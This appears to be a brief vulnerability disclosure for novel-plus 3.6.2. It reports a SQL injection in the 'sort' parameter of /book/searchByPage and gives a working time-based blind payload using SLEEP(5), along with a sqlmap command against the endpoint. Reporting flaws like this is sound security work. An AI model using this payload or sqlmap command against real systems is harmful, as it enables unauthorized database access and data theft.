 # novel-plus SQL injection vulnerability

## Open source address：
https://github.com/201206030/novel-plus

## version：
-3.6.2

## pocs
Send a get request to "http://192.168.56.1:8083/book/searchByPage", 
payload: 
```
http://domain/book/searchByPage?curr=1&limit=20&keyword=a&sort=last_index_update_time)%20AS%20sJJn%20WHERE%204712=4712%20AND%20(SELECT%208463%20FROM%20(SELECT(SLEEP(5)))BRss)--
``` 
## sqlmap
```
sqlmap -u http://domain/book/searchByPage?curr=1&limit=20&keyword=a&sort=last_index_update_time
```
